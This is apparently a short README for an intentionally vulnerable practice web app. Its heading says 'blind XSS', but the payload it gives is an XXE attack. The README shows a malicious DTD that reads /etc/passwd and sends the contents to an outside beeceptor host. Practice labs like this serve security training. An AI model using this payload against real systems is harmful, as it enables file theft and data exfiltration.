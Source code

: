 # A web vulnerable to blind XSS

To run the server:
```
php -S 127.128.129.130:80
```

Navigate to Upload and try to upload file **student.xml** stored in folder **exploit**. You can rewrite URL to point to your own DTD, something like this:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://longnn.free.beeceptor.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Then check the response and see the error messages. Something interesting to hacker will display ^^